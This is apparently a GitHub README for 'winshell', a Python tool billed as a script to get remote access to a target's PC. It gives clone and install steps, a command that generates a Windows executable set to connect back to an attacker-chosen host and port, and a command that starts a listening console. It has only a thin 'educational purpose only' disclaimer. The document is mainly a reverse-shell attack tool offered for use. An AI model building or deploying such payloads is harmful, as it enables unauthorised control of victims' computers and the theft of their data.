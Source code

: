 # winshell
Simple script to get remote access to targets PC


Educational purpose only             
------------------------------------------

I'm not responsible for your actions 


Download and Run
------------------------
git clone https://github.com/EH30/winshell   
cd winshell   
pip install -r requirements.txt   
Genrate exe file: python winshell.py -l [You're Host/IP] -p [You're Port] --name [You're file Name]   
Listener console: python winshell.py -l [You're Host/IP] -p [You're Port] --console 1   



Genrating exe File Example: python winshell.py -l [You're Host/IP] -p [You're Port] --name [You're file Name]
Run this command it will open console for Listening: python winshell.py -l [You're Host/IP] -p [You're Port] --console 1


Console Example
---------------------------------------------   
Command Example: python winshell.py -l 127.0.0.1 -p 9999 --console 1   
--------------------------------------------------------------------------------   
<img src="https://github.com/EH30/winshell/blob/master/winshells_console_example.JPG" >   
   
   
   

Generating exe file Example
--------------------------------------------------------------   
Command Example: python winshell.py -l 127.0.0.1 -p 9999 --name shell   
----------------------------------------------------------------------------------------------------   
<img src="https://github.com/EH30/winshell/blob/master/winshell_exe_shell_example.JPG">   

<img src="https://github.com/EH30/winshell/blob/master/winshells_console_example.JPG">   


